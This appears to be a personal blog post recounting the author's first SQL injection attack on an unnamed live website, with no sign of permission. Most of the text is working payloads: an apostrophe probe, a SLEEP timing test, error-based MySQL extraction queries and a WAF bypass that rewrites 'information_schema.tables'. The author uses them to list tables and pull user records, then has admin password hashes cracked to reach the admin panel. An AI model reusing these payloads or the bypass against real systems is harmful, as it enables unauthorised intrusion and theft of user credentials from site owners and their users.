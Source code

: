 ```yaml
---
layout: post
title: The day of first hacking
---
```


Today I woke up and smelt that today is the day of the first hacking experience.

Find your target by smell. It usually stinks.

### First I searched for input forms. e.g. a simple search form of a stincky website. And input the most dangereous symbol ever created by a human: the apostrophe.

url: `/search/?'`

We get the following result:

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version.

Whoozay!!! Seems like this query is vulnerable to SQL Injection attack. Now we must determine type of attack we can use for injection.

###  Adding the 'always true statement'

url: `search/?' or '1'='1`

We get bad result: 

> Subquery returns more than 1 row. 

This means that our query is inside an another one, possibly in a where clause. Little example to demonstrate what I mean:

```sql
Select * From Orders Where field = (Select field from order_fields)
```

This means that our injection is Blind, we can’t see the result of the query. But as we can see the error(s) of the query we understand that we are dealling with error-based blind sql injection.

### To be sure we are on right way, we decided to GO TO SLEEP.

url: `search/?1' OR (SELECT SLEEP(3)) or '1'='1`

Please be quite our server is asleep.

There are some well known tactics to work in this situation, googling will give us some of that well-know samples. We just need to add some modifications so that the known tactics work for our case. 

###  Let’s try to get current database name..

url: 

``` sql
search/?1' or(select 1 from(select count(*),concat((select (select concat(0x7e,0x27,Hex(cast(database() as char)),0x27,0x7e)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1
```

Not Acceptable, 406 ! This is bad, first thing that is coming to mind is that we have an active WAF inplace and it is blocking requests based on `max_get_size`. But simplifying the query doesn’t provide results. After a little research I found out that WAF (Web Application Firewall) is blocking `information_schema.tables` combinations in url….
It was really sad, as the ammount of adrenalin in blood was already too high. After 1-2 hours of researching (googling really) I found out that there is a bypassing way for this restriction, here is it: we need to replace `information_schema.tables` to `information_schema 0.e.tables`

### After getting database name we need to get table names from `information_schema`.

Getting Table Results

url: 

```sql
search/?1' or(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,Hex(cast(table_name as char)),0x27,0x7e) FROM information_schema 0.e.tables Where table_schema=0xDATABASE_NAME_IN_HEX limit 1,1)) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
```

Click-Method and mighty hands method resulted in discovering about 95 tables, after retrieving them one by one we found the most interesting ones:

`tt_users, tt_admin_lists`

### Let’s start from the tt_admin_lists. ( We need to get column names, then by table name and column name get value again one by one )
Getting Column Names:

url: 

```sql
search/?1' or(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,Hex(cast(column_name as char)),0x27,0x7e) FROM information_schema 0.e.columns  Where table_schema=0xDATABASE_NAME_IN_ HEX AND table_name=0xTABLE_NAME_IN_HEX limit 1,1)) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
```

Here is Result:

`admin _id, admin_login, admin_password`

Getting column data:

url: 

```sql
search/?1' or(select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,Hex(cast(tt_admin_lists.admin_login as char)),0x27,0x7e) FROM `DATABASE_NAME`. tt_admin_lists LIMIT 1,1) ) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
```

Unfortunately this table was blank.

### After that we perform the same steps for the tt_users table and get the following results.
Column Names:

`User, pass, type, name`

And 5 users. (2 admins) with hashed passwords.

### HASH HACKING STEP

I don't know any hash hacking strategies and I ask my friend to get hacked my password hashes and after that admin panel was waiting for us.

Holy cow I forgot about hacking music...

[Hacking Music](https://www.youtube.com/watch?v=lN_MSyrq6-U)

